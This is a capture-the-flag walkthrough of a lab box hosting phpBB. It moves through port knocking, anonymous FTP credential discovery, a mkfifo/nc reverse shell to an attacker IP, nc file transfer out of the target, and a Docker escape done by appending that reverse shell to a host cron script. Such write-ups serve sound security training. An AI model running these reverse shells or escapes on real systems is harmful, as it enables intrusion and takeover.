

Let's start with a nmap scan

```bash
nmap 10.10.34.107
```


we a see a web page in port 8080 and its running phpbb


after going through the website we found it is version 3.3.x and there is no know vulnerability for it.

the site has a single post 

POST ALL YOUR CAT PICTURES HERE
Knock knock! Magic numbers: 1111, 2222, 3333, 4444

The post gives us a hint to perform port knocking

https://www.bugcrowd.com/glossary/port-knocking/

To perform port knocking clone this git repo
https://github.com/grongor/knock

```bash
git clone https://github.com/grongor/knock

cd knock

./knock 10.10.34.107 1111 2222 3333 4444
```


Now lets scan for all open ports
```bash
sudo nmap -sS 10.10.34.107 -p- -v -T 4 
```




we can see that port 21 (ftp) is open. Now lets connect to the server through ftp.


anonymous login was turned on we found a note.txt


```
In case I forget my password, I'm leaving a pointer to the internal shell service on the server.

Connect to port 4420, the password is sardinethecat.
- catlover
```

now lets connect to port 4420


like it said cd command is not working and there is a file runme im /home/catlover which cannot be executed on this shell


now lets break out of this shell
looks like we have mkfifo and nc


let's search for a payload in revshells.com for this 

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.54.133 9001 >/tmp/f
```


now lets try running the runme file


it requires a password to run it

let's copy the executable to our local machine using nc

Run a listener on the attacker machine

```bash
nc -l -p 1234 > runme
```

send the file from the target box

```bash
nc -w 3 10.17.54.133 1234 < runme
```


we got our executable to our machine. let's analyse it

```bash
strings runme
```


now let's copy the id_rsa to our machine and ssh to the server


looks like we are the root


we got the 1st flag and we are in a docker container


when we look into the mounted folders we are able to see a partition directly mounted from machine


there is abash script which clears the /tmp/folder


let's change the code of the "clean.sh" to the revshell we used earlier

```bash
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.17.54.133 9001 >/tmp/f" >> clean.sh
```


since there is no cronjobs running in this machine and the files I create in the tmp folder is not deleted. the clean.sh is running the host machine. so lets wait for the code to run


And here we go, we got the flag.